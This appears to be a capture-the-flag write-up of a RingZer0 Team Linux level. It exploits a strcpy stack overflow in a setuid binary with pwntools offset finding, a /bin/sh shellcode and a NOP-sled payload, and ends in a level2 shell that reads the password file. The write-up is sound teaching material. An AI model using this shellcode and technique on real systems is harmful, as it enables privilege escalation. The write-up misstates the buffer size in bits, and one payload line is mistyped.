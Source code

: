 # Ringzer0team | Pwnage Linux - Level1

## Srbx7

First let have a look at the source code: `cat /levels/level1.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

So this code's copying the argument to a 1024 bit buffer using the well known vulnerable function `strcpy`.

Great! Now, let's have a look at the binary it self: 

`# file /levels/level1`

```
level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f355fe3b2ac64ecfedfcf48c6208429d0138e80d, not stripped
```

+ Has a setuid; probably for the next level ;)
+ Is compiled for 32 processors (e.g.: x86 arch)

`# checksec /levels/level1`

```
[*] '/root/ringzer0team/pwnageLinux/level1/a.out'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

+ No RELRO (Relocation Read-Only): it's possible to overwrite global variable
+ No canary found: it's possible to smash the stack 
+ NX (no executable) disabled: it's possible to write and execute from the stack
+ No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)

So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's an x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.

1. Find the offset of the return adress

```python
from pwn import *
cyclic(2000)
```

``` bash
gdb run <CYCLIC_PL>
Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()
```

```python
cyclic_find(0x6b61616a)
1036
```
2. Get a x86 shellcode

```python
 len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
45
```

3. Pick the return address

```bash
(gdb) run `python -c 'print "A" * 1040'`
(gdb) x/100wx $esp-1050
0xffffd456:	0x0048ffff	0x00040000	0x41410000	0x41414141
0xffffd466:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd476:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd486:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd496:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd506:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd516:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd526:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd536:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd546:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd556:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd566:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd576:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd586:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd596:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d6:	0x41414141	0x41414141	0x41414141	0x41414141
```

4. Craft the PL (e.g.: NOP + SHELLCODE + RETURNADRESS)

```bash
/levels/level1 `python -c 'print "\X90" * 1036-45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
```

That's it!

```
level1@lxc-pwn-x86:~$ /levels/level1 `python -c 'print "\x90" * (1036-45) + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
level2@lxc-pwn-x86:/home/level1$ wc /home/level2/.pass
 1  1 21 /home/level2/.pass
level2@lxc-pwn-x86:/home/level1$
```
